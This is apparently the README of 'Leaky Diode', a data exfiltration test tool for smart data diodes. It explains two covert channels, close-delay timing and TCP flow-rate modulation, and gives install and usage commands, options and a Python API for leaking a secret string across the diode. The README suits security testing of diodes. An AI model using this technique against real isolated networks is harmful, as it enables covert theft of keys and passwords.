 # Leaky Diodes

Leaky diode is a data exfiltration test tool for *smart* data diodes, that is 
data diodes with support for TCP pass-through with the help of some side channel
from the isolated side. The attacks used are **flow modulation** and/or 
**close delay**:

- **CLOSE DELAY** uses the delay between the request of one the secret's bits and
the time the server closes the connection to encode the bit value. (i.e.- 10 seconds
delay means a 0, 30 seconds delay a 1)

- **FLOW MODULATION** uses tcp flow control mechanism to encode secret's bits as
a transfer speed. For example if the the bit requested by the client is 1 the server
throttles the speed to 300KB/s, if it's 0 to 100KB/s. The advantage of this attack is
that using a single connection makes it harder to detect.


## Installation

Download the package or clone the repository, and then install with:

```bash
python3 setup.py install
```

or use pypi:

```bash
pip3 install leaky_diode --user
```

or

```bash
sudo pip3 install leaky_diode
```

the path to the scripts if not installed as root will be:

```bash
/home/[username]/.local/bin/leaky_client
/home/[username]/.local/bin/leaky_server
```


## Usage

On the isolated side launch the server:

```bash
leaky_server public_ip port 'secret string that needs leaking'
```

On the untrusted side launch the client and select one of the attacks,

```bash
leaky_client server_ip server_port --mode flow --partial
```

or

```bash
leaky_client server_ip server_port --mode close --partial
```

And just wait a few minutes to receive the first byte (it's the slowest), if you're not sure
if it's working add --verbose option so it prints messages on each received bit.
 

## Options

```bash
usage: leaky_client [-h] [--mode mode] [--low_delay delay] [--high_delay delay] [--low_rate rate] 
					[--high_rate rate] [--sample_time time] [--settle_time time] [--partial]
                    host port

Leaky Diode is a data exfiltration test tool for data diodes

positional arguments:
  host                  Remore host address
  port                  Remote host port

optional arguments:
  -h, --help            Show this help message and exit
  --mode mode, -m mode  Attack mode 'flow' or 'close' (default: flow)
  --low_delay delay     Close delay for low bits (default: 5s) (only Close Mode)
  --high_delay delay    Close delay for high bits (default: 10s) (only Close Mode)
  --low_rate rate       Tx rate for low bits (default: 64 KB/s) (only Flow Mode)
  --high_rate rate      Tx rate for high bits (default: 300 KB/s) (only Flow Mode)
  --sample_time time    Tx rate sampling interval (default: 3.0s) (only Flow Mode)
  --settle_time time    Settle time between sending a bit request and the start of 
                        sampling (default: 8.0s) (only Flow Mode)
  --partial             Show partial results each time another byte from the secret is received
  --verbose             Show debugging messages
```

```bash
usage: leaky_server [-h] host port secret_string

Leaky Diode is a data exfiltration test tool for data diodes

positional arguments:
  host           Remore host address
  port           Remote host port
  secret_string  Attack mode 'flow' or 'close' (default: a secret string)

optional arguments:
  -h, --help     Show this help message and exit
  -v, --verbose  Show debugging messages
```

## Performance

The attack throughput with the default parameters is around 1 B/min (yes, one byte per minute),
you can increase it by lowering the delay times in **close delay** mode, and the settle/sample
times in **flow modulation** (the default values are very conservative)

An actual exfiltration attempt using this attack could easily leak a few KB per day, too slow
for large breachs, but enough for targeted attacks for keys/passwords or selected users data.


## API

It is also possible to use leaky_diode as a package and include a server in your own app:


* class LeakyServer(host, port, secret, ticks=100, max_connections=10)

	* host: (str) Listen interface ip addres ('' for all)
	* port: (int) Listen port
	* secret: (bytes) Secret to leak (max length 65535)
	* ticks: (int) Ticks per second the worker process use to throttle the connections.
	* max_connections: (int) Max concurrent connection the server can handle.

	* **start()**: Initialize and launch server worker processes
    * **stop()**: Stop server and its workers

   
```python
from leaky_diode import LeakyServer

leaky_server = LeakyServer('192.168.0.10', 9000, b'some secret byte string')
leaky_server.start()

# Do something else
......

# Close server before exit
leaky_server.close()
``` 


## TODO

- Harden message parsing input validation (invalid lengths)
- Use concurrent connection to increase exfiltration speed.
- Tune flow modulation mode tx speeds .
- Tune close delay mode delays.
- Add CRC to the secret and secret length, or even better error correction. 
- Add resume capability so there is no need to get the secret in one go.
- Add some tests.


## References

- Data Diodes [Wikipedia](https://en.wikipedia.org/wiki/Unidirectional_network)
- Place holder so I remember to publish a post on the attacks
- And another on transport and streaming protocols for data diodes
